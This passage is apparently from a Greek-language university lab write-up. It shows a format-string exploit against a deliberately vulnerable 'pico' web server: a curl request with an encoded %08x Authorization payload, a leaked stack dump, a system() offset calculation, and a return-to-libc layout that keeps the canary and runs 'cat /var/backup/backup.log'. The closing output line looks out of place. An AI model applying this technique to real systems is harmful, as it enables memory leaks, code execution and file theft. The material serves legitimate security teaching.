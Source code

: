   putchar('\n');
```
(Προσοχή το output της παραπάνω εκτύπωσης θέλει convert big to little endian) 

2) Παρατηρήσαμε (στο τοπικό μας μηχάνημα) πως από τη vulnerable printf η 28η τιμή (όταν δίνουμε input **"%08x"** * 31) είναι κοντά στη συνάρτηση system και η διαφορά τους είναι σταθερή. Έτσι βρήκαμε το offset για την system, δηλαδή το τρόπο που θα βρίσκουμε τη συνάρτηση system γνωρίζοντας την τιμή του 28ου word. Η συγκεκριμένη επίθεση δεν δούλεψε, οπότε καταλάβαμε ότι τα offset στον πραγματικό pico-server θα είναι διαφορετικά. Στη συνέχεια στήσαμε τον pico server στο linux02 (εκεί έγινε compile ο πραγματικός pico-server) και με τον ίδιο τρόπο βρήκαμε το offset που θέλαμε:

```
linux02:/home/users/sdi1700040/security/pico-master>./server
System (needs reverse big to little endian): e072a8f7
Server started http://127.0.0.1:32465

linux02:/home/users/sdi1700040/security/pico-master>curl -d "3" -v 'http://127.0.0.1:32465/ultimate.html' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Content-Length: 0' -H 'Upgrade-Insecure-Requests: 1' -H 'Authorization: Basic JTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eAo='
<a lot http info
< HTTP/1.1 401 Unauthorized
< WWW-Authenticate: Basic realm="Invalid user: 57d13160 0000009b 565e7526 00000000 00000000 57d1388a 565ea180 00000000 00000000 57d13160 0000009b 00000000 00000001 57d13160 00000000 565e8585 0000009b 00000000 00000000 00000000 00000000 00000000 c5397000 00000000 00000000 f7ac1deb c5397000 f7c22d80 565e9f08 ffd11b38 565e70f1
< "
* no chunk, no close, no size. Assume close to signal end
< 
* Closing connection 0
linux02:/home/users/sdi1700040/security/pico-master>
```
<br>

'Ετσι κάνοντας την πράξη **0xf7c22d80-0xf7a872e0 = 0x19BAA0 = 1686176** βρήκαμε το πραγματικό offset για την system.

 Στόχος μας λοιπόν ήταν αφού εκτελεστεί η εντολή  ```strcpy(post_data, payload);```, η μνήμη που φαίνεται παραπάνω (βλ ερώτημα 3) να αντικατασταθεί με:
  * 13 "τυχαία" words
  * Διεύθυνση του buffer (&post_data) να παραμείνει ίδια
  * 1 "τυχαίο" word
  * Canary να παραμείνει ίδιο
  * Το ακριβώς επόμενο word να παραμείνει ίδιο
  * 1 "τυχαίο" word
  * Saved $ebp να παραμείνει ίδιος
  * Διεύθυνση της  system 
  * Ένα τυχαίο word (κάποιες φορές δίνεται η διέυθυνση της exit)
  * Διέυθυνση του πρώτου byte της συμβολοσειράς που αποτελέι arguement της system = Διέυθυνση του αμέσως επόμενου word
  * ```cat /var/backup/backup.log``` (string to execute with system)

Τρέχοντας τα παραπάνω στο script [question4_5.py](src/question3_4_5/question4_5.py) πήραμε το ακόλουθο output. <br>

```
  Computing, approximate answer: 41.998427123123
  ...
